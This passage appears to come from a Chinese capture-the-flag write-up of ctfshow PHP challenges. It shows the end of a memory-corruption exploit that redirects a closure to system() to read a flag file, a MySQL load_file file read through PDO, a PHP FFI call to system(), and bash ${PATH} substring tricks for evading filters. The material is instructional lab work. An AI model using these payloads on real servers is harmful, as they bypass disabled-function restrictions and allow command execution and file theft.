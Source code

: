 ```
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }
    
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 
    
    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");ob_end_flush();
#需要通过url编码哦
```

利用mysql load_file读文件

<pre class="wp-block-code"><code>c=try {
    $dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');

    foreach ($dbh->query('select load_file("/flag36.txt")') as $row) {
        echo ($row&#91;0]) . "|";
    }
    $dbh = null;
} catch (PDOException $e) {
    echo $e->getMessage();
    exit(0);
}
exit(0);</code></pre>

PHP7.4-FFI

<blockquote class="wp-block-quote">
  <p>
    (PHP 7 >= 7.4.0, PHP 8)<br />FFI::cdef — Creates a new FFI object<br />FFI（Foreign Function Interface），即外部函数接口，是指在一种语言里调用另一种语言代码的技术。
  </p>
</blockquote>

<pre class="wp-block-code"><code>c=$ffi = FFI::cdef("int system(const char *command);");
$a='/flagfile > 1.txt';
$ffi->system($a);</code></pre>

使用bash的内置变量进行绕过，不完全总结

<pre class="wp-block-code"><code>${PATH}          /root/bin
${PATH:~0}          n
${PATH:~1}          in
${PATH:~2}          bin
${PATH:~A}          n
${PATH:~a}          n
${PATH:5:4}         /bin

